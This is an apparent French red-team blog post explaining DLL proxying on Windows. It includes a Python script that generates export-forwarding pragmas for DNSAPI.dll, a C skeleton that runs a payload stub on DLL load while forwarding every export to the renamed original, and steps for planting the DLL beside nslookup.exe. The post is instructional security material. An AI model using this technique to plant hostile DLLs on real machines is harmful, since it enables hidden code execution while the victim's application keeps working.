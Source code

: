 +++
author = "Sh0ckFR"
title = "Martin et le DLL Proxying de cristal"
date = "2022-05-16"
description = "Martin et le DLL Proxying de cristal"
tags = [
    "red-team",
]
+++

Bonjour à tous et à toutes, pour faire suite à mon article [Martine à la recherche de la DLL Hijacking perdue](/pages/martine-a-la-recherche-de-la-dll-hijacking-perdue/) je vous propose aujourd'hui un article sur le DLL Proxying.

![Sh0ckFR DLL Proxying](/images/martin-dll-proxying.jpg)

Comme vous vous en doutez, le gars au centre c'est Martin et il ne savait pas trop ce qu'il lui arrivait avec ce pouvoir entre les mains, ici c'est pareil.

Vous avez pu comprendre les mécanismes du DLL Hijacking dans mon précédent post, mais je n'avais pas évoqué un point important.

Effectivement, que se passe t'il si on redirige une fonction d'un programme sans pour autant rediriger les autres fonctions de celui-ci ? vous avez 4 heures.

En vrai c'est relativement simple, ça peut crash, du moins vous pouvez bloquer l'exécution d'un programme et exécuter votre charge utile sans attendre de retour mais cela rend l'application originale inutilisable.

Dans un contexte où l'application n'est pas vraiment nécessaire pour l'utilisateur, ça fonctionne relativement bien, mais imaginez bloquer une bibliothèque importante pour un programme de l'utilisateur, votre charge utile fonctionnera mais l'utilisateur ne pourra plus utiliser son application originale.

Mais alors comment faire ?

La réponse est simple, rediriger TOUTES les fonctions du programme original (donc faire un DLL hijacking sur toutes les fonctions connues).

Reprenons l'exemple dans le précédent post, vous aviez vu `nslookup.exe` utilisait une librairie vulnérable au DLL Hijacking `DNSAPI.dll`, pour retrouver toutes nos fonctions il existe un programme :

http://www.nirsoft.net/utils/dllexp-x64.zip

On peut donc retrouver la table d'export via ce logiciel :

![Sh0ckFR DLL Proxying](/images/dll-proxying-1.png)

Et là magie, on retrouve notre fonction utilisée dans le précédent post `DnsQueryConfigAllocEx`

![Sh0ckFR DLL Proxying](/images/dll-proxying-2.png)

Une autre solution pour éviter d'être dépendant de notre programme `DLL Export Viewer` et d'utiliser la librairie `pefile` pour Python :

```python
import pefile

exported_functions = []
pe = pefile.PE('C:\\windows\\system32\\DNSAPI.dll')
for entry in pe.DIRECTORY_ENTRY_EXPORT.symbols:
    func = entry.name.decode('utf-8')
    exported_functions.append(f'#pragma comment(linker,"/export:{func}=proxy.{func},@{entry.ordinal}")')

exported_functions = '\n'.join(exported_functions)
print(exported_functions)
```

Ce qui donne un résultat du genre :

![Sh0ckFR DLL Proxying](/images/dll-proxying-3.png)

On voit que toutes les fonctions de DNSAPI.dll devront être redirigées vers une DLL nommée `proxy.dll`.

Il n'y a plus qu'à copier les exports pour le linked afin que nous puissons créer une DLL `DNSAPI.dll` avec toutes les fonctions attendues par la DLL originale `DNSAPI.dll` :

```c
#pragma once
#pragma comment(linker,"/export:AdaptiveTimeout_ClearInterfaceSpecificConfiguration=proxy.AdaptiveTimeout_ClearInterfaceSpecificConfiguration,@1")
#pragma comment(linker,"/export:AdaptiveTimeout_ResetAdaptiveTimeout=proxy.AdaptiveTimeout_ResetAdaptiveTimeout,@2")
#pragma comment(linker,"/export:AddRefQueryBlobEx=proxy.AddRefQueryBlobEx,@3")
#pragma comment(linker,"/export:BreakRecordsIntoBlob=proxy.BreakRecordsIntoBlob,@4")
#pragma comment(linker,"/export:Coalesce_UpdateNetVersion=proxy.Coalesce_UpdateNetVersion,@5")
#pragma comment(linker,"/export:CombineRecordsInBlob=proxy.CombineRecordsInBlob,@6")
#pragma comment(linker,"/export:DeRefQueryBlobEx=proxy.DeRefQueryBlobEx,@7")
...

int Main()
{
    // Your payload code.
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        Main();
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Il suffit ensuite de renommer la DLL originale `DNSAPI.dll` en `proxy.dll` et de copier notre nouvelle librairie `DNSAPI.dll` dans le même répertoire que le programme original et vous avez donc comme résultat un DLL Proxying parfait qui ne fera pas planter l'application originale.

Bien entendu, j'ai implémenté l'automatisation du DLL Proxying dans [DLLirant](https://github.com/Sh0ckFR/DLLirant) via l'argument `--proxydll` :

```python
python3 DLLirant.py -p "C:\THEFULLPATH\VulnerableDLL.dll"
```

## Crédits

itm4n - https://itm4n.github.io/dll-proxying/